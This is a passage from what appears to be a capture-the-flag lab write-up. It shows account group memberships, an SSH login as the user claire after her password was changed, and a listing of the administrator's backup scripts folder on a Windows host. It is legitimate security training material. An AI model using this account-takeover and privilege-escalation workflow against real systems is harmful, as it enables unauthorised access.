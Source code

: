```
Last logon                   11/10/2022 5:13:24 PM                                                                              

Logon hours allowed          All                                                                                                

Local Group Memberships      *Hyper-V Administrator                                                                             
Global Group memberships     *Backup_Admins        *Domain Users                                                                
                             *MegaBank_Users       *DR_Site                                                                     
                             *Restrictions                                                                                      
The command completed successfully.
```

With claire's password changed I now gain access as claire using SSH

```
┌──[Thu Nov 10 11:14:40 AM CST 2022]-[TheScriptKid]-[/tmp]
├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
└──# ssh claire@10.129.47.91                                                                                                                              130 ⨯
claire@10.129.47.91's password: 

Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

claire@REEL C:\Users\claire>
```

With claire's permissions I am able to view the administrator's directory. Furthermore, I encounter a Backup Scripts directory that includes interesting files, powershell scripts.

```
claire@REEL C:\Users\Administrator\Desktop>cd "Backup Scripts"                                                                  

claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>dir                                                                   
 Volume in drive C has no label.                                                                                                
 Volume Serial Number is CC8A-33E1                                                                                              

 Directory of C:\Users\Administrator\Desktop\Backup Scripts                                                                     

11/02/2017  09:47 PM    <DIR>          .                                                                                        
11/02/2017  09:47 PM    <DIR>          ..                                                                                       
11/03/2017  11:22 PM               845 backup.ps1                                                                               
11/02/2017  09:37 PM               462 backup1.ps1                                                                              
11/03/2017  11:21 PM             5,642 BackupScript.ps1                                                                         
11/02/2017  09:43 PM             2,791 BackupScript.zip                                                                         
11/03/2017  11:22 PM             1,855 folders-system-state.txt                                                                 
```